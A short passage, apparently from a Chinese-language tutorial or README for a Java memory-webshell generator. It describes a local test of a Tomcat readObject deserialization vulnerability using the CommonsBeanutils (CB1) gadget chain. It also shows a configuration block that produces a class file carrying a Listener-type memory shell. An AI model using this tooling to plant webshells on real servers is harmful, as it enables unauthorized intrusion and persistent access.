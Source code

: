 3、成功连接

![](./img/1708847459275.png)

### 02 反序列化漏洞 (readObject)

本地测试环境
- Tomcat v8.5.53
- JDK 8
- readObject 反序列化
- CB1 链

1、生成 class 文件
```text
server_type=Tomcat
shell_type=Listener
# 继承 AbstractTranslet
gadget_type=JDK_AbstractTranslet
format_type=CLASS
output_path=/tmp/
```
